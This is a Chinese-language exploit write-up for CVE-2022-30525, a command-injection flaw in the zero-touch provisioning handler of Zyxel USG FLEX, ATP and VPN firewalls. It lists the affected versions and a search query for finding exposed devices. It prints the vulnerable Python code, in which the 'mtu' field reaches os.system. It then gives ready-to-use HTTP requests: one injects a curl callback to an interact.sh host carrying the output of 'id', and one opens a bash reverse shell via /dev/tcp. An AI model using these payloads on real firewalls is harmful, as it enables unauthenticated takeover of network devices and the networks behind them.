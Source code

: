 # Zyxel USG FLEX handler 远程命令执行漏洞 CVE-2022-30525

## 漏洞描述

Rapid7 发现并报告了一个漏洞，该漏洞影响支持零接触配置 (ZTP) 的 Zyxel 防火墙，其中包括 ATP 系列、VPN 系列和 USG FLEX 系列（包括 USG20-VPN 和 USG20W-VPN）。该漏洞标识为 CVE-2022-30525，允许未经身份验证的远程攻击者以nobody受影响设备上的用户身份执行任意代码。

## 漏洞影响

<a-checkbox checked>USG FLEX 100、100W、200、500、700  < ZLD5.00 - ZLD5.21 补丁 1</a-checkbox></br>

<a-checkbox checked>USG20-VPN、USG20W-VPN	 < ZLD5.10 - ZLD5.21 补丁 1</a-checkbox></br>

<a-checkbox checked>ATP 100、200、500、700、800  < ZLD5.10 - ZLD5.21 补丁 1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="USG FLEX" </a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1652439754909-48eee255-7036-44e3-b6e1-6ae32e1ddc9f.png)

出现漏洞的文件为  lib_wan_settings.py 下的 setWanPortSt 方法

```java
def setWanPortSt(req):

    reply = {}
    vlan_tagged = ''
    logging.info(req)
    port = req["port"].strip()

    vlanid = req["vlanid"]
    proto = req["proto"]
    data = req["data"]
    vlan_tagged = req["vlan_tagged"]
    
    cmdLine = ''
    GUIportst = {}
    
    extname = findextname(port)

    #TODO: subprocess method
    try:
        if vlan_tagged == '1':
            if vlanid == '':
                vlanid == '0'

        if proto == "dhcp":
            if 'mtu' not in req:
                req['mtu'] = '1500'
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 11 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 1 '
            #extname = findextname(port)
            cmdLine += extname + ' ' + port.lower() + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            if "option60" in data:
                cmdLine += ' ' + data['option60']
            cmdLine += ' >/dev/null 2>&1'
        elif proto == "static":
            if 'mtu' not in req:
                req['mtu'] = '1500'
            prefix_length = netmask_to_cidr(data['netmask'])
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 12 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 2 '
            #extname = findextname(port)
            cmdLine += extname + ' ' + port.lower() + ' ' + data['ipaddr'] + ' ' + str(prefix_length) + ' ' + data['gateway'] + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            cmdLine += ' ' + data['firstDnsServer']
            if 'secondDnsServer' in data:
                cmdLine += ' ' + data['secondDnsServer']
            cmdLine += ' >/dev/null 2>&1'
        elif proto == "pppoe":
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 13 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 3 '
            #extname = findextname(port)

            if 'auth_type' not in data:
                data['auth_type'] = 'chap-pap'
            if 'mtu' not in req:
                req['mtu'] = '1492'
            if 'ipaddr' not in data:
                data['ipaddr'] = '0.0.0.0'
            if 'gateway' not in data:
                data['gateway'] = '0.0.0.0'
            if 'firstDnsServer' not in data:
                data['firstDnsServer'] = '0.0.0.0'

            cmdLine += extname + ' ' + port.lower() + ' ' + data['username'] + ' ' + data['password'] \
                + ' ' + data['auth_type'] \
                + ' ' + data['ipaddr'] + ' ' + data['gateway'] \
                + ' ' + data['firstDnsServer'] + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            cmdLine += ' >/dev/null 2>&1'
            
        logging.info("cmdLine = %s" % cmdLine)
        with open("/tmp/local_gui_write_flag", "w") as fout:
            fout.write("1");

        response = os.system(cmdLine) 
        logging.info(response)
        if response != 256:
            logging.info("cmd thread return error")
            reply = {"error": 500}
        else:
            logging.info("cmd success!!")
            reply["stdout"] = [{}]
            reply["stderr"] =""
            with open(WAN_PORT_LAST_CHANGED, "w") as fout:
                fout.write(port)
            if not os.path.exists(ztpinclude.PATH_WAN_MODIFIED_TO_CLOUD):
                reply = {"error": 500, "exception": "Cannot find data2cloud folder!"}
            with open(ztpinclude.PATH_WAN_MODIFIED_TO_CLOUD + 'local_wan_modified', 'a+') as fout:
                fout.write(port + ' ')
            
    except Exception as e:
        reply = {"error": 500, "exception": e}
   
    return reply
```

从源码里可以看到拼接的参数为 `mtu` , 随后直接 `os.system` 命令执行

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1652442517990-2f1e198d-0abd-46a5-bc74-e56da3ae6ccb.png)

验证POC

```java
POST /ztp/cgi-bin/handler HTTP/1.1
Host: 
Content-Type: application/json

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":";curl `id`.c9y7h342vtc00002dwxggr9tukwyyyyyj.interact.sh;","data":"hi"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1652439825625-87592d2f-85fb-45ae-8148-d9be83dd654a.png)

反弹Shell

```java
POST /ztp/cgi-bin/handler HTTP/1.1
Host: 
Content-Type: application/json

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":";bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1';","data":"hi"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1652440046272-4e76d5be-0f5a-4f91-ae4a-043a9e6835a6.png)